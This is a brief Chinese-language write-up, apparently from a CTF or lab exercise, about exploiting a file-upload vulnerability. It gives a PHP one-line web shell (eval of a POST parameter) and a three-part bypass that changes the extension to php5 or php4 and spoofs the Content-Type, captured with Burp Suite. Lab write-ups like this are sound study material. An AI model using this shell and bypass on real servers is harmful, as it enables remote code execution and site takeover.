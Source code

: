  文件管理的行动
一般就是文件上传能利用了
来试一下是不是文件上传upload

 Just image?
考虑：
使用图片马
或者绕过检测

接下来考虑利用文件上传漏洞了
<hr/>
肯定是会有过滤的
我先把文明命名为了shell.jpg（或者改Content-Type）
然后使用bp抓包修改为php6，先提前分析一波结果

 
因该是内容的问题
查阅了发现payload为
&lt;script language="php"&gt;@eval($_POST['1']);&lt;/script&gt;

php3不能被识别为php文件

 然后又说这不是一个php文件

 
<hr/>
 无语啦，打错了一个字母，说我不是php了（我还改了各半小时，最后还是发现问题了）
醉了醉了

 三个部分：（别打错啦）
"shell.php5"（php4也可）
 image/png（jpeg，gif也可）
 &lt;script language="php"&gt; @eval($_POST['cmd']); &lt;/script&gt;（中间内容可改）


---


---

